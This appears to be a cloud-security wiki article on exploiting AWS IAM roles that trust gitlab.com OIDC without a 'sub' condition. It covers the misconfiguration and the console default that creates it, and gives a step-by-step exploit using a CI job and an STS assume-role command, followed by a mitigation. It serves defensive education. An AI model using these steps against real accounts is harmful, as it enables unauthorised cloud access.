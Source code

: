 ```yaml
---
author_name: Nick Frichette
title: "Exploiting Misconfigured GitLab OIDC AWS IAM Roles"
description: Discover how to identify and exploit misconfigured AWS IAM roles using GitLab OIDC, with a detailed, step-by-step guide.
---
```


[OpenID Connect](https://openid.net/developers/how-connect-works/) (OIDC) is a common technology used to authorize services outside of AWS to assume IAM roles. As has been shown many times in the past (examples: [one](https://securitylabs.datadoghq.com/articles/exploring-github-to-aws-keyless-authentication-flaws/), [two](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/), and [three](https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess)), these roles can be misconfigured, permitting anyone in the world the ability to assume a vulnerable role.

In this article, we will explain a potential misconfiguration of AWS IAM roles when using GitLab OIDC, walk through how to exploit them step-by-step, and explain how the AWS Console causes this misconfiguration by default.

!!! warning
    In this article, we are only covering misconfigured roles with a trust relationship to the [gitlab.com](https://gitlab.com/) SaaS offering. In theory this attack could be performed on a self-hosted version of GitLab as well, however we have not tried it. If you have, feel free to open a [pull request](https://github.com/Hacking-the-Cloud/hackingthe.cloud/pulls) and update this article as needed.

## IAM role misconfiguration using GitLab OIDC

According to the GitLab [documentation](https://docs.gitlab.com/ee/ci/cloud_services/aws/), AWS IAM roles that are using OIDC to authenticate should have a trust policy that looks like the following:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::AWS_ACCOUNT:oidc-provider/gitlab.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "gitlab.com:sub": "project_path:mygroup/myproject:ref_type:branch:ref:main"
        }
      }
    }
  ]
}
```

There are several important elements of this trust policy including:

* `Principal.Federated`: This is the identity provider that authorizes the role assumption. It is important to note that while each AWS account will have its own identity provider, this is simply a [stand-in](https://docs.gitlab.com/ee/ci/cloud_services/aws/#add-the-identity-provider) for the global `gitlab.com` provider. 
* `Action`: This is the specific type of assume role being used. In this case it is [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html).
* `gitlab.com:sub`: This is an optional condition which restricts the group, project, or branch which is permitted to assume the role.

The word "optional" from the previous sentence is why this attack is possible. There is no requirement to include a condition which restricts which specific group or project is permitted to assume a role. As a result of this __anyone with access to gitlab.com could assume a role with this misconfiguration__.

## How to exploit this misconfiguration

In this situation we will assume a role that has the following trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Principal": {
                "Federated": "arn:aws:iam::AWS_ACCOUNT:oidc-provider/gitlab.com"
            },
            "Condition": {
                "StringEquals": {
                    "gitlab.com:aud": [
                        "https://gitlab.com"
                    ]
                }
            }
        }
    ]
}
```

!!! Note
    In this example there is no condition on the `sub` field, restricting who is permitted to assume the role. This is the default trust policy that is set when creating a role through the AWS Console. More on this [later](#how-the-aws-console-causes-this-misconfiguration-by-default). 

To exploit this misconfigured role, we must generate a JWT that can be used to authorize the [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) invocation. To do this, create an account on gitlab.com or use an existing one.

Next, create a project, and in this newly created project, create a file called `.gitlab-ci.yml`. This is the configuration file for GitLab CI. Add the following content to the `.gitlab-ci.yml` file:

```yml
assume role:
  id_tokens:
    GITLAB_OIDC_TOKEN:
      aud: https://gitlab.com
  script:
    - echo ${GITLAB_OIDC_TOKEN} | base64 -w 0
```

!!! warning
    The `base64 -w 0` is required because GitLab will mask the output if you simply echo the `GITLAB_OIDC_TOKEN`. 

After adding this content to the `.gitlab-ci.yml` file, navigate to "Build > Jobs" on the left side, and click on the most recent CI job. Here you should see the OIDC token that we base64 encoded.

![gitlab.com CI Job view](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/gitlab.com.example.png)

From here, decode the base64 encoded blob (`base64 -d`) to get the original `GITLAB_OIDC_TOKEN`. This is the JWT you will use in the following [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) call.

!!! Note
    You can optionally decode this value to see that the issuer is `https://gitlab.com`. This is what is being validated in the [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) and because there is no condition on the `sub` field, we are able to assume the misconfigured role.

```bash
nick.frichette@host ~ % aws sts assume-role-with-web-identity \
--role-arn <ARN of misconfigured role>
--role-session-name <session name of your choosing>
--web-identity-token  <JWT from previous step>
{
    "Credentials": {
        "AccessKeyId": "ASIAEXAMPLE123EXAMPL",
        "SecretAccessKey": "EXAMPLE123EXAMPLE123EXAMPLE123EXAMPLE123"
        "SessionToken": "[..snip..]",
        "Expiration": "2024-09-01T23:20:01+00:00"
    },
    "SubjectFromWebIdentityToken": "project_path:secres/runner-test:ref_type:branch:ref:main",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAEXAMPLE123EXAMPL:blah",
        "Arn": "arn:aws:sts::111111111111:assumed-role/vuln-gitlab-runner-role/blah"
    },
    "Provider": "arn:aws:iam::111111111111:oidc-provider/gitlab.com",
    "Audience": "https://gitlab.com"
}
```

You have successfully used a JWT generated from gitlab.com to assume a misconfigured IAM role!

## How the AWS console causes this misconfiguration by default

If you've been following along, you may wonder, "Why would anyone make this misconfiguration? The GitLab documentation provides an example that is secure". Misconfigurations occur for a wide variety of reasons and in a wide variety of scenarios, however this one may have a more clear cut reason. 

When creating IAM roles in the AWS console, developers can choose a `trusted entity` for `Web identity`. This will pre-populate the trust policy of the IAM role and generally makes things easier. However, when a developer chooses `Web identity` and selects `gitlab.com` as the identity provider, there is no requirement for a condition on the `sub` field. __Using the AWS console to create the IAM role will generate a vulnerable role by defualt__.

![AWS Console 1](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/vuln_aws_1.png)

![AWS Console 2](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/vuln_aws_2.png)

Compare this behavior to [GitHub Actions](https://www.wiz.io/blog/a-security-community-success-story-of-mitigating-a-misconfiguration) or [Terraform Cloud](https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess). In both of these situations, AWS made changes to the AWS Console to require additional fields to mitigate this type of attack.

## How to block this attack using RCPs
Recently, the Resource Control Policy (RCP) examples repository added [examples](https://github.com/aws-samples/resource-control-policy-examples/blob/main/Limit-access-to-trusted-OIDC-identity-providers/Limit-access-to-trusted-OIDC-identity-providers.md#specific-example-controls-for-tenancy-within-multi-tenant-oidc-providers-with-a-shared-issuer-url) on how to block this type of attack using RCPs. The example Resource Control Policy can block an external attacker from assuming your vulnerable role. 
